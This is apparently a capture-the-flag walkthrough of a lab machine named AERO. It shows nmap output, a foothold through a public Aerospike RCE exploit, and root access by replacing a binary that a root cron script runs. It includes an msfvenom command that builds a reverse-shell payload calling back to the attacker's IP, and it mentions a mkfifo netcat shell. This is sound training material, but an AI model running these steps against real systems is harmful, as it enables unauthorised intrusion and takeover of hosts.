







# AERO

## Enumeration

```
Nmap scan report for 192.168.152.143
Host is up (0.052s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 23:4c:6f:ff:b8:52:29:65:3d:d1:4e:38:eb:fe:01:c1 (RSA)
|   256 0d:fd:36:d8:05:69:83:ef:ae:a0:fe:4b:82:03:32:ed (ECDSA)
|_  256 cc:76:17:1e:8e:c5:57:b2:1f:45:28:09:05:5a:eb:39 (ED25519)
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
81/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Test Page for the Nginx HTTP Server on Fedora
443/tcp  open  http       Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  ppp?
3001/tcp open  nessus?
3003/tcp open  cgms?
3306/tcp open  mysql      MySQL (unauthorized)
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2113
|_    RProcessStartupPacket
| ssl-cert: Subject: commonName=aero
| Subject Alternative Name: DNS:aero
| Not valid before: 2021-05-10T22:20:48
|_Not valid after:  2031-05-08T22:20:48
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3003-TCP:V=7.94SVN%I=7%D=8/1%Time=66AC1AA9%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,1,"\n")%r(GetRequest,1,"\n")%r(HTTPOptions,1,"\n")%r(RTSPR
SF:equest,1,"\n")%r(Help,1,"\n")%r(SSLSessionReq,1,"\n")%r(TerminalServerC
SF:ookie,1,"\n")%r(Kerberos,1,"\n")%r(FourOhFourRequest,1,"\n")%r(LPDStrin
SF:g,1,"\n")%r(LDAPSearchReq,1,"\n")%r(SIPOptions,1,"\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.94SVN%I=7%D=8/1%Time=66AC1AA4%P=x86_64-pc-linux-gnu%r(
SF:SMBProgNeg,8C,"E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20front
SF:end\x20protocol\x2065363\.19778:\x20server\x20supports\x202\.0\x20to\x2
SF:03\.0\0Fpostmaster\.c\0L2113\0RProcessStartupPacket\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: 192.168.120.58; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3000/tcp)
HOP RTT      ADDRESS
1   51.26 ms 192.168.45.1
2   51.21 ms 192.168.45.254
3   52.61 ms 192.168.251.1
4   52.72 ms 192.168.152.143
```

Ports 21 and 22 do not offer much off the bat with no credentials. I did check anonymous FTP login but it was no good.

### Web Server Ports 80 & 443

This was running Pico CMS which had an RFI vulnerability but it was for a much older version that what was running here. Other than that nothing of much interest

### Web Server Port 81

Just an `nginx` default install.

### MySQL

I tried brute forcing the login but I was unable to connect from my machine.

### PostgreSQL

No luck brute-forcing login.

### Aerospike

[Aerospike](https://aerospike.com/) is a database system. I was confused about what was running at ports 3000, 3001, and 3003. I tried going there in a browser but the connection reset. Eventually I just Googled "ports 3000 3001 3003" and [this](https://aerospike.com/docs/server/operations/plan/network) was the top link that popped up. It mentioned all of those ports so I decided to assume that was it.

## Foothold

I start looking into this Aerospike service running on ports 3000 etc.

### Aerospike RCE

I first found [EDB-ID 49067](https://www.exploit-db.com/exploits/49067) for Aerospike. Unfortunately it kept failing with a message saying the target was not vulnerable:

<figure><figcaption><p>Failed exploit</p></figcaption></figure>

This sent me down a rabbit hole of trying a bunch of other things before I eventually figured this could be the only entry point. I found a [different exploit](https://github.com/b4ny4n/CVE-2020-13151/blob/master/cve2020-13151.py) which did work:

<figure><figcaption><p>Successful command execution</p></figcaption></figure>

#### Stabilizing the Shell

I then attempted to launch a Netcat shell via the `--cmd` provided. I was using the `mkfifo ...` technique. It would launch a shell (to ports 80 or 81) but the shell would be closed after \~30 seconds:

<figure><figcaption><p>Quick-exiting shell</p></figcaption></figure>

I could not figure it out. I was trying all kinds of things one command at a time. Eventually I realized the exploit offered a `--pythonshell` argument that would launch a shell. This turned out to be much more stable:

<figure><figcaption><p>Stable shell</p></figcaption></figure>

User access achieved as `aero`.

## Privilege Escalation

I started with basic manual enumeration before turning to PEAS and `pspy`. PEAS did not turn up much but `pspy` was helpful:

<figure><figcaption><p>Potential escalation path</p></figcaption></figure>

Looking at the output it seems there is a script being run on a schedule, `/root/aerospike.sh`. This script seems to contain several commands pertaining to Aerospike but one of them uses a binary in the `/opt/aerospike/bin` directory.

I recall from my manual enumeration that was a writable directory to my `aero` user:

<figure><figcaption><p>aero writable directories</p></figcaption></figure>

### Binary Hijacking

I compile a reverse shell called `asadm` with `msfvenom`:


```bash
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LPORT=80 LHOST=192.168.45.154 -f elf -o asadm
```


I download this to the victim, shut down my HTTP server, launch a listener at port 80, and wait. Within a few minutes I have a `root` shell:

<figure><figcaption><p>AERO root shell</p></figcaption></figure>

Machine completed.
